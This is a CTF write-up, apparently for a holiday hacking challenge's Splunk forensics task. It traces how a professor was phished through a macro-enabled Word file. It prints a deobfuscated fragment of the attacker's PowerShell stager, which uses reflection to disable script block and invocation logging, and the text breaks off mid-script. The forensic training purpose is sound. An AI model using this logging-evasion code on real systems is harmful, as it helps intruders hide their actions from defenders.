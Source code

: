 # 6) Splunk
## Prompt 1
Access https://splunk.elfu.org/ as elf with password elfsocks. What was the message for Kent that the adversary embedded in this attack? The SOC folks at that link will help you along! For hints on achieving this objective, please visit the Laboratory in Hermey Hall and talk with Prof. Banas.

## Prompt 2
The Search for Holiday Cheer Challenge
1. Your goal is to answer the Challenge Question. You will include the answer to this question in your HHC write-up!
1. You do not need to answer the training questions. You may simply search through the Elf U SOC data to find the answer to the final question on your own.
1. If you need some guidance, answer the training questions! Each one will help you get closer to the answering the Challenge Question.
1. Characters in the SOC Secure Chat are there to help you. If you see a blinking red dot  next to a character, click on them and read the chat history to learn what they have to teach you! And don't forget to scroll up in the chat history!
1. To search the SOC data, just click the Search link in the navigation bar in the upper left hand corner of the page.
1. This challenge is best enjoyed on a laptop or desktop computer with screen width of 1600 pixels or more.
1. WARNING This is a defensive challenge. Do not attack this system, web application, or back-end APIs. Thank you!

# Solve Process
1. I don't know Splunk, so let's learn by following the training questions.
1. Question 1: What is the short host name of Professor Banas' computer?
    1. For the first question, one of the chat logs mentions that a system has beaconing (on the #ELFU SOC sub-chat), and that system's name is 'sweetums'. Alice mentions that's Professor Banas' system... bingo!
1. Question 2: 	What is the name of the sensitive file that was likely accessed and copied by the attacker? Please provide the fully qualified location of the file. (Example: C:\temp\report.pdf)
    1. Returning to Alice Bluebird, we see that we have 18 new messages.
    1. Following the hint to search for the professor's name, we find an unusual email from a student to the professor: please decrypt this zip file and hit enable content on Word, implying that the professor was phished by one of his students. Also, reading the professor's reply suggests that the script created a copy of another student's file even to the exact error. The word document launched a powershell script that ran (with some additional formatting to fix the mess):
    ```powershell
    IF($PSVerSioNTaBLe.PSVERsIOn.MAJor -gE 3)
    {
        $GPF=[Ref].ASsEMBly.GETTyPE('System.Management.Automation.Utils')."GEtFiE`Ld"('cachedGroupPolicySettings','N'+'onPublic,Static');
        IF($GPF)
        {
            $GPC=$GPF.GeTVAluE($nUlL);
            If($GPC['ScriptB'+'lockLogging'])
            {
                $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
                $GPC['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging']=0
            }
            $val=[COLlEcTioNs.GEneRiC.DICTIoNAry[StrING,SySTEm.ObjecT]]::NeW();
            $vAl.AdD('EnableScriptB'+'lockLogging',0);
            $vaL.ADd('EnableScriptBlockInvocationLogging',0);
            $GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$VAl
        }
        ElSE
        {